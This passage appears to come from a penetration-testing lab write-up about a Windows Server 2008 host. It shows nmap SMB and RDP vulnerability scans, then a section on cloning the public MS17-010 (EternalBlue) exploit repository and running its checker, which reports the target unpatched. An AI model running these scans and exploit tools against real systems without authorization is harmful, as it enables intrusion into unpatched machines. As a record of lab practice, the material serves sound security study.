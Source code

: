 ```bash
|_      https://technet.microsoft.com/en-us/library/security/ms17-010.aspx

Nmap done: 1 IP address (1 host up) scanned in 1.21 seconds
```
```bash
sudo nmap 192.168.120.40 -p445 --script smb-vuln-cve-2017-7494 --script-args smb-vuln-cve-2017-7494.check-version -oN scans/$NAME-nmap-smb-vuln-cve-2017-7494

# output
NSTR
```
```bash
sudo nmap 192.168.120.40 -p445 --script smb-vuln-cve-2017-7494 -oN scans/$NAME-nmap-smb-vuln-cve-2017-7494

# output
NSTR # even though this is the exploit...
```

### RDP
```bash
sudo nmap $TARGET --script rdp-ntlm-info -oN scans/$NAME-nmap-script-rdp-ntlm-info

# output
NSTR
```
```bash
rdesktop $TARGET

# output
# confirmed target is running Microsoft Windows Server 2008
```

# Exploit
## EternalBlue
### worawit
Downloaded worawit's exploit, but Windows Vista and newer blocks anonymous access to Named Pipes. Therefore I'm 90% certain you need a valid credential for these exploits to work. 
```bash
git clone https://github.com/worawit/MS17-010
cd MS17-010
python checker.py 192.168.120.40

# output
Target OS: Windows Server (R) 2008 Standard 6001 Service Pack 1
The target is not patched

=== Testing named pipes ===
spoolss: STATUS_ACCESS_DENIED
samr: STATUS_ACCESS_DENIED
netlogon: STATUS_ACCESS_DENIED
lsarpc: STATUS_ACCESS_DENIED
browser: STATUS_OBJECT_NAME_NOT_FOUND
```
